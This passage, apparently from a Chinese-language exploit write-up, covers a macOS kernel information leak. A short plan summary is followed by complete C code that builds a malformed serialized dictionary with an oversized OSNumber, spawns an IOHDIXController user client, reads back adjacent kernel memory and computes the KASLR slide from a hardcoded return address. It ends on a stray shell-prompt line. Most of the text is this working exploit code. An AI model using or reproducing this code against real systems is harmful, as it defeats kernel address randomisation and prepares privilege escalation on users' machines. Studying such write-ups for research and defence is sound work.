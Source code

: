 以下是 info-leak 利用计划回顾：

* 制作一个包含超长OSNumber的序列化二进制字典。
* 使用序列化字典在内核中的用户客户端对象中设置属性。
* 读取设置的属性（OSNumber），通过超长的大小泄漏相邻的数据。
* 使用一些读取的数据来计算 kernel slide。

以下是实际代码：

```c
uint64_t kslide_infoleak(void)
{
    kern_return_t kr = 0, err = 0;
    mach_port_t res = MACH_PORT_NULL, master = MACH_PORT_NULL;
    io_service_t serv = 0;
    io_connect_t conn = 0;
    io_iterator_t iter = 0;
    uint64_t kslide = 0;
    void *dict = calloc(1, 512);
    uint32_t idx = 0; // index into our data
#define WRITE_IN(dict, data) do { *(uint32_t *)(dict + idx) = (data); idx += 4; } while (0)
    WRITE_IN(dict, (0x000000d3)); // signature, always at the beginning
    WRITE_IN(dict, (kOSSerializeEndCollection | kOSSerializeDictionary | 2)); // dictionary with two entries
    WRITE_IN(dict, (kOSSerializeSymbol | 4)); // key with symbol, 3 chars + NUL byte
    WRITE_IN(dict, (0x00414141)); // 'AAA' key + NUL byte in little-endian
    WRITE_IN(dict, (kOSSerializeEndCollection | kOSSerializeNumber | 0x200)); // value with big-size number
    WRITE_IN(dict, (0x41414141)); WRITE_IN(dict, (0x41414141)); // at least 8 bytes for our big numbe
    host_get_io_master(mach_host_self(), &master); // get iokit master port
    kr = io_service_get_matching_services_bin(master, (char *)dict, idx, &res);
    if (kr == KERN_SUCCESS) {
        printf("(+) Dictionary is valid! Spawning user client...\n");
    } else
        return -1;
    serv = IOServiceGetMatchingService(master, IOServiceMatching("IOHDIXController"));
    kr = io_service_open_extended(serv, mach_task_self(), 0, NDR_record, (io_buf_ptr_t)dict, idx, &err, &conn);
    if (kr == KERN_SUCCESS) {
        printf("(+) UC successfully spawned! Leaking bytes...\n");
    } else
        return -1;
    IORegistryEntryCreateIterator(serv, "IOService", kIORegistryIterateRecursively, &iter);
    io_object_t object = IOIteratorNext(iter);
    char buf[0x200] = {0};
    mach_msg_type_number_t bufCnt = 0x200;
    kr = io_registry_entry_get_property_bytes(object, "AAA", (char *)&buf, &bufCnt);
    if (kr == KERN_SUCCESS) {
        printf("(+) Done! Calculating KASLR slide...\n");
    } else
        return -1;
#if 0
    for (uint32_t k = 0; k < 128; k += 8) {
        printf("%#llx\n", *(uint64_t *)(buf + k));
    }
#endif
    uint64_t hardcoded_ret_addr = 0xffffff80003934bf;
    kslide = (*(uint64_t *)(buf + (7 * sizeof(uint64_t)))) - hardcoded_ret_addr;
    printf("(i) KASLR slide is %#016llx\n", kslide);
    return kslide;
}
```


[jndok:~jndok(Debug)]: sudo zprint | grep kalloc